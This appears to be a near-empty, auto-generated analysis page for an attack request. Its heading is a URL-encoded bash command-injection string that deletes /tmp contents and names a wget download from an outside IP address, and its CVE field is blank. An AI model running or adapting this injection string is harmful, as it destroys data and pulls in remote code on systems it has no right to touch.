 # Analysis for /bin/bash%20-c%20%22rm%20-rf%20/tmp/*;echo%20wget%20http://205.185.122.121/China%22
## CVE: 